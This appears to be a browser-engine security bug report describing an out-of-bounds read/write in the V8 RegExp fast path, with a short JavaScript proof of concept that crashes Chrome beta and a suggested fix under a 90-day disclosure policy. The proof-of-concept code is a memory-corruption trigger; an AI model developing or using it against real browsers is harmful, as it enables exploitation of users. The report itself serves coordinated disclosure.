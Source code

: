 There is an out-of-bounds access in RegExp.prototype.exec and RegExp.prototype.test. The code defined in BranchIfFastRegExp checks whether a regular expression object has the default map, however, it is possible to alter the map after this check has been performed. This can cause inline fields, such as lastIndex to be changed to dictionary properties. This will cause out-of-bounds reads and writes the next time lastIndex is accessed on the fast path.

A minimal PoC is as follows, and two full PoCs (one for test and one for exec) are attached.

var re;
function f(){
	for(var i = 0; i < 100; i++){
		re["test" + i] = 0x77777777; // make a dict
	}
return 0;
}

re = /-/g;
var str = '2016-01-02';
re.lastIndex = {valueOf : f};
result = re.exec(str);

This PoC crashes on google-chrome-beta on Linux.

Please note there are several situations in the RegExp class where user script can change the map during the fast path (for example, in  replace and split), but it wasn't obvious how to cause a crash. I recommend cleaning up this code so that the slow path is taken whenever user script is executed.

This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.